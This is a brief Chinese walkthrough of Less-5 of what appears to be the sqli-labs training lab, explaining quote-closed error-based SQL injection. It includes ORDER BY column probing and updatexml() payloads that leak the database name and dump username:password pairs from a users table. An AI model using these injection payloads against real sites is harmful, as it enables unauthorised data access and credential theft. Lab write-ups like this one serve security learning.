



# Less5——关于'闭合 报错注入/布尔盲注/时间盲注

　　 **?id=1 发现页面查询结果不回显**



　　 **?id=1' 发现语法报错还是存在的 说明是需要使用报错注入**

　　**查数据库列数**

　　 **?id=1'  order by 3 --+ 正常
    ?id=1'  order by 4 --+ 报错**

　　**查显错**

　　**无论怎么进行查询，结果都会显示You are in .........**

　　**但是当我们查询的字段多于3个后，页面会报错，就可以利用报错注入**

**使用报错注入 也可以使用盲注的方法** 
这里用**updatexml ()** 报错注入
爆库名
```sql
?id=-1' and updatexml(1,concat(0x7e,(database()),0x7e),1) --+
```



剩下的就不一一叙述了 
payload
```sql
?id=-1' and updatexml(1,concat(0x7e,(select concat(username,':',password) from users limit 0,1),0x7e),1)--+

```

